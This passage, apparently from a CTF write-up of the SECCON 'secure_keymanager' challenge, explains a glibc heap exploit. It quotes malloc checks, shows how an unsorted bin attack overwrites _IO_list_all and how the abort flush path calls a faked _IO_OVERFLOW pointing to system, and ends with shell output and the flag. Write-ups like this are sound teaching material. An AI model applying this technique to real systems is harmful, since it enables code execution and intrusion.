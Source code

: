 All we have to do now is allocate a new chunk such that we bypass the following check:

```c
if (in_smallbin_range (nb) &&        
    bck == unsorted_chunks (av) &&   
    victim == av->last_remainder &&  
    (unsigned long) (size) > (unsigned long) (nb + MINSIZE)) 
    {
```  

In order to fall under this case:

```c
/* remove from unsorted list */
unsorted_chunks (av)->bk = bck;   
bck->fd = unsorted_chunks (av);
```

So that `_IO_list_all` gets overwritten with the unsorted bin's address. Then, `malloc` will stumble upon a check:

```c
bck = unsorted_chunks(av);
fwd = bck->fd;
if (__glibc_unlikely (fwd->bk != bck)) 
{
    errstr = "free(): corrupted unsorted chunks";
    goto errout;
}
```

From which it will call `malloc_printerr => __libc_message => abort => fflush / _IO_flush_all_lockp`. By taking care of the
check requirements before aborting, we can trigger `_IO_OVERFLOW` which we have impersonated with `system`. Finally, we will
get our beloved shell.

```
[+] Opening connection to secure_keymanager.pwn.seccon.jp on port 47225: Done
[+] Libc:         0x7f7c9b1d4000
[+] _IO_list_all: 0x7f7c9b599520
[+] system:       0x7f7c9b219390
[*] Switching to interactive mode
$ id
uid=10035 gid=10000(sec_km) groups=10000(sec_km)
$ ls
flag.txt
secure_keymanager
$ cat flag.txt
SECCON{C4n_y0u_b347_h34p_45lr?}
```
